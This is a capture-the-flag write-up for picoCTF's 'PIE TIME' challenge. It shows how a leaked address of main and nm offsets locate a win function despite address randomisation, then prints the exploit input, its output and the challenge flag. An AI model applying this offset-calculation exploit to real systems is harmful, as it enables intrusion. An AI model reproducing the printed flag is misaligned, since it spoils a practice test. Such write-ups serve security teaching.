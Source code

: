 # PIE TIME picoCTF Write-Up

## Challenge Description
In this challenge, we are given access to a remote server via netcat:
```
nc rescued-float.picoctf.net 52689
```
The program displays the address of the `main` function:
```
Address of main: 0x6169209de33d
Enter the address to jump to, ex => 0x12345:
```
We are also provided with a binary named `vuln`.

## Solution Steps

1. **Identify Important Functions**  
   Use the following command to find the addresses of the `main` and `win` functions:
   ```bash
   nm vuln | grep -E 'main|win'
   ```
   Output:
   ```
   000000000000133d T main
   00000000000012a7 T win
   ```

2. **Calculate the Offset**  
   Calculate the difference between the addresses of `main` and `win`:
   ```
   0x133d - 0x12a7 = 0x96
   ```
   The offset to the `win` function is -0x96 from the address of `main`.

3. **Determine the Address of Win**  
   Given the address of `main` from the server (`0x6169209de33d`), calculate:
   ```
   address_of_win = address_of_main - 0x96
   address_of_win = 0x6169209de33d - 0x96 = 0x6169209DE2A7
   ```

4. **Exploit**  
   Enter the calculated address into the program:
   ```
   Address of main: 0x6169209de33d
   Enter the address to jump to, ex => 0x12345: 0x6169209DE2A7
   Your input: 6169209de2a7
   You won!
   ```

## Flag
```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}
```